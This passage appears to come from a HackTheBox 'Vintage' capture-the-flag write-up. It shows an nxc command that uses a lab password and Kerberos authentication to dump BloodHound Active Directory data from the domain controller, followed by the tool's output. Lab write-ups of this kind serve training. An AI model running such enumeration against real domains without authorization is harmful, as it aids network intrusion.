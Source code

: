 ![alt text](../assets/images/vintage3.png)
we didnt get anything but at least we tried. We were have ldap access SO? lets dump BH data.

### bloodhound-data

```bash
➜  Vintage nxc ldap DC01.vintage.htb -u P.Rosa -p 'Rosaisbest123' -k --bloodhound --dns-server 10.10.11.45 --collection All
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\P.Rosa:Rosaisbest123 
LDAP        DC01.vintage.htb 389    dc01.vintage.htb Resolved collection methods: psremote, session, group, acl, objectprops, trusts, container, localadmin, rdp, dcom
LDAP        DC01.vintage.htb 389    dc01.vintage.htb Using kerberos auth without ccache, getting TGT
LDAP        DC01.vintage.htb 389    dc01.vintage.htb Done in 00M 28S
LDAP        DC01.vintage.htb 389    dc01.vintage.htb Compressing output into /root/.nxc/logs/dc01.vintage.htb_DC01.vintage.htb_2025-04-24_153112_bloodhound.zip
```

Wait what???? Nothing interesting….